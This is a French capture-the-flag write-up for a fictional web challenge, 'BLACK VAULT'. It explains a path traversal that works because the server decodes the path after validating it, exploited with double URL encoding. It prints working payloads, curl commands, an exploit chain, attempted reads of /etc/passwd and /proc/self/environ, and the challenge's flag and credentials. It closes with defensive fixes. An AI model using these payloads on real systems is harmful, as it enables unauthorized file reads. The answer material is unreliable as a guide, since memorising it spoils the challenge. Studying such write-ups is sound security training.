



# BLACK VAULT — Writeup

**Campagne :** VANTA//SYSTEMS (`BV-04`) · **Catégorie :** Web · **Difficulté :** difficile intermédiaire
**Vulnérabilité :** Path Traversal par décodage après validation (LFI confinée à l'archive)
**Flag :** `FPS{black_vault_the_erased_are_still_here}`

---

## Résumé organisateur — Résolution rapide

- **Prérequis :** avoir résolu MIRROR GATE (référence d'archive `BV-2147-1057`). Compte archiviste fourni : `archivist.bv-021` / `BV-021-2147`.
- **Point de départ :** `/login`, puis le **lecteur documentaire** `GET /api/vault/BV-2147-1057/preview?file=…` (paramètre `file` contrôlable) et KB-VAULT-021.
- **Actions décisives :**
  1. Lire un document public, puis constater que `../` direct et le **simple** encodage sont refusés (403).
  2. Exploiter le décodage **après** validation (double encodage du `.`) pour franchir vers le compartiment `sealed/` et lire `manifest.json`.
  3. Suivre le manifeste : rapport NEUROGRID, **capacité** du pont de diagnostic, et clé **ROOT-AUDIT** (pour ROOT OF TRUST).
  4. Ouvrir le pont MIRA (`/diagnostics`) avec la capacité + références, dérouler la conversation (identify → expose) jusqu'à l'attestation.
- **Emplacement du flag :** attestation de contact renvoyée par le pont (état `completed`).
- **Blocages fréquents :** rester sur le simple encodage ; saisir la forme brute `inventory%252Etxt` dans le champ du lecteur (le `%` y est ré-encodé — utiliser `inventory%2Etxt`) ; oublier de conserver la clé ROOT-AUDIT pour la suite.
- **Détail complet :** sections ci-dessous.

## 1. Scénario

STATIC remonte la piste documentaire de **MIRA-07 / EID-1057** jusqu'à **BLACK VAULT**, le service
de conservation classifié de VANTA à Noctis-9. MIRROR GATE a livré une référence d'archive,
`BV-2147-1057`, qui doit encore exister dans l'index de conservation. On dispose d'un poste
d'archiviste légitime : il faut retrouver le dossier, franchir la frontière documentaire vers les
pièces scellées, lire ce que VANTA a voulu enfouir sur NEUROGRID, établir un bref contact avec MIRA
et récupérer le matériel cryptographique destiné à ROOT OF TRUST.

## 2. Navigation dans Black Vault

1. **Connexion.** L'énoncé fournit les identifiants `archivist.bv-021` / `BV-021-2147`. Ce login
   est immersif, pas une énigme. Il ouvre une session serveur (cookie opaque `HttpOnly`).
2. **Recherche.** `/archives?q=BV-2147-1057` localise le dossier.
3. **Dossier & lecteur.** Le dossier expose des métadonnées, la liste des documents `public/` et
   l'existence d'un compartiment `SEALED` sans en donner le contenu. Le **lecteur documentaire** charge un
   document via une API transparente :

   ```http
   GET /api/vault/BV-2147-1057/preview?file=summary.txt
   ```

   Le paramètre `file` est contrôlable par le joueur — c'est le point d'entrée.
4. **Documentation (`KB-VAULT-021`).** La note de migration donne le modèle mental décisif :
   - le lecteur résout les références **par rapport à `public/`** ;
   - les pièces classifiées sont dans le compartiment **frère `sealed/`** ;
   - le **Vault Access Controller** rejette les segments parents **avant** de confier la référence au
     **Document Renderer**, développé séparément, qui *interprète ensuite les caractères échappés*.

   Autrement dit : deux composants distincts, dans cet ordre. « Une référence affichée dans l'index
   peut conserver une représentation différente de celle utilisée lors de l'ouverture. »



## 3. La vulnérabilité

### 3.1 Pourquoi `../` est refusé

Le **Vault Access Controller** s'exécute sur la valeur **déjà décodée une fois par Flask** (décodage de la
query string HTTP). Elle rejette tout segment `..`, les `\`, les `:`, les chemins absolus :

| Query string envoyée | Valeur vue par `request.args["file"]` | Résultat |
|---|---|---|
| `file=../sealed/manifest.json` | `../sealed/manifest.json` | **403** `PATH_REFERENCE_REJECTED` (segment `..`) |
| `file=%2e%2e%2fsealed%2fmanifest.json` | `../sealed/manifest.json` | **403** identique |

Dans le second cas, la couche HTTP de Flask a déjà décodé `%2e%2e%2f` en `../` **avant** la
validation : le filtre voit donc le même `..` et refuse. Un simple encodage URL ne contourne rien.

### 3.2 L'ordre des décodages

Le défaut vient de **contrats de représentation incompatibles** entre deux composants développés
séparément : la référence est *validée* par le **Vault Access Controller**, puis le **Document
Renderer** applique **une passe supplémentaire** de décodage pourcent (`unquote`) **avant**
d'ouvrir le fichier. Le chemin **validé** n'est donc pas le chemin **ouvert**.

Il faut une représentation qui :
- ne contienne **aucun** `..` ni `/` *littéral* au moment de la validation (pour passer le filtre) ;
- redevienne `../sealed/...` **après** la passe supplémentaire du renderer.

La solution est le **double encodage**. On encode `%` lui-même :

```
../sealed/manifest.json
  → encodage 1 :  %2e%2e%2fsealed%2fmanifest.json
  → encodage 2 :  %252e%252e%252fsealed%252fmanifest.json   (le % devient %25)
```

Déroulé sur le fil :

| Query string envoyée | `request.args["file"]` (après Flask) | Après validation puis `unquote` renderer |
|---|---|---|
| `file=%252e%252e%252fsealed%252fmanifest.json` | `%2e%2e%2fsealed%2fmanifest.json` | `../sealed/manifest.json` → **lecture scellée** |

Au moment de la validation, la valeur est `%2e%2e%2fsealed%2fmanifest.json` : pas de segment `..`
(aucun `/` littéral pour découper), pas de séparateur interdit → le filtre **laisse passer**.
Le renderer `unquote` **une seule fois** → `../sealed/manifest.json` → le lecteur résout
`public/../sealed/manifest.json` = `sealed/manifest.json` et renvoie le JSON réel.

Preuve que la validation diffère de l'ouverture : la réponse renvoie
`"reference": "../sealed/manifest.json"` alors que la query ne contenait que des `%25…`.

### 3.3 Exploitation

```bash
# direct  → 403        encodé simple → 403        double encodage → 200
curl -b cookies "…/preview?file=%252e%252e%252fsealed%252fmanifest.json"
```

Le manifeste donne les chemins exacts (pas de bruteforce) :

```json
{"entries":[
  {"id":"NG-1057-AUDIT","path":"reports/neurogrid-1057.txt"},
  {"id":"NG-1057-BRIDGE","path":"diagnostics/bridge-access.json"},
  {"id":"RT-RECOVERY","path":"recovery/root-signing.json"}]}
```

On les lit en construisant `../sealed/<path>` puis en doublant l'encodage à chaque fois.

## 4. Franchissement `public/` → `sealed/` et confinement

La faille ne permet **que** de sortir de `public/` vers `sealed/` **dans la même archive**. Après le
décodage du Document Renderer, le serveur canonicalise le chemin (`resolve()`) et refuse toute résolution
hors de `<VAULT_ROOT>/BV-2147-1057/`, indépendamment du Vault Access Controller. En pratique :

- `../../etc/passwd`, `/etc/passwd`, `/proc/self/environ` (même doublement encodés) → **403**
  `ARCHIVE_BOUNDARY_REJECTED` ;
- l'ouverture se fait composant par composant en `O_NOFOLLOW` (anti-symlink, anti-TOCTOU) ;
- seules les extensions `.txt`/`.json` sont servies, avec une borne de taille.

C'est une **vraie lecture de fichiers**, pas un déclencheur magique : aucun test ne reconnaît un
payload gagnant.

## 5. La révélation NEUROGRID

`sealed/reports/neurogrid-1057.txt` établit que **NEUROGRID** exploite des processus cognitifs
humains comme ressources de calcul ; l'instance `NG-R-1057` reste `ACTIVE` malgré l'effacement
administratif `SIL-4/2147-07` d'EID-1057 ; des réponses conscientes intermittentes persistent ;
d'autres sujets existent. Le rapport renvoie vers le pont `VANTA-NG-DIAGNOSTIC` **sans** contenir de
flag ni de secret.

## 6. Le pont MIRA-07

`sealed/diagnostics/bridge-access.json` contient la **capacité** de diagnostic (générée au démarrage,
récupérable uniquement par la faille). On ouvre le canal :

```http
POST /api/bridge/open   {archive_ref, allocation_ref, capability}   (header X-CSRF-Token)
```

Le serveur valide la capacité côté serveur, renvoie un `session_id` opaque et le premier message.



La progression est **scriptée et maintenue côté serveur** via `POST /api/bridge/advance`
(`identify` puis `expose`). On ne peut ni sauter une étape (transition refusée `409`), ni obtenir
l'attestation avant la fin, ni lire le flag dans le HTML/JS initial. À la dernière transition, le
backend émet une **attestation de contact** contenant le flag — rejouable sur la session achevée.

```
FPS{black_vault_the_erased_are_still_here}
```

Après la coupure du canal, l'attestation de contact reste consultable et contient le flag
(masqué sur la capture) :



## 7. La clé ROOT-AUDIT

`sealed/recovery/root-signing.json` contient une clé symétrique **HS256** dédiée à ROOT-AUDIT :
`service: VANTA-ROOT-AUDIT`, `kid: root-audit-2147`, `secret_encoding: base64url-no-padding`,
`secret_b64u` = **32 octets** aléatoires encodés en Base64URL sans padding. La signature HS256
utilise les **octets décodés**, jamais le texte encodé. Cette même valeur sera provisionnée dans
ROOT OF TRUST (variable `ROOT_AUDIT_KEY_B64U`) pour forger un JWT administrateur authentiquement
signé. BLACK VAULT ne fournit ni le token final ni les claims admin.

## 8. Les protections qui auraient fermé la faille

- **Décoder une seule fois, puis valider** (ou refuser toute séquence `%` résiduelle avant
  l'ouverture) : le défaut est l'ordre validation → décodage.
- Ne pas confier à un second composant (ici le Document Renderer) une passe de décodage supplémentaire après le contrôle.
- Canonicaliser (`realpath`) **et** confiner à la racine *avant* ouverture — ce que le challenge
  fait pour borner la faille à l'archive, et qui, appliqué à `public/`, fermerait complètement la
  traversée.
- Servir les documents par **identifiant d'allowlist** plutôt que par chemin libre.

---

### Annexe — chaîne d'exploitation condensée

```
login (archivist.bv-021 / BV-021-2147)
 → GET preview?file=%252e%252e%252fsealed%252fmanifest.json         (manifest)
 → GET preview?file=%252e%252e%252fsealed%252freports%252f…          (NEUROGRID)
 → GET preview?file=%252e%252e%252fsealed%252fdiagnostics%252f…      (capability)
 → GET preview?file=%252e%252e%252fsealed%252frecovery%252f…         (ROOT-AUDIT key)
 → POST bridge/open {capability} → advance identify → advance expose → attestation.proof = FLAG
```
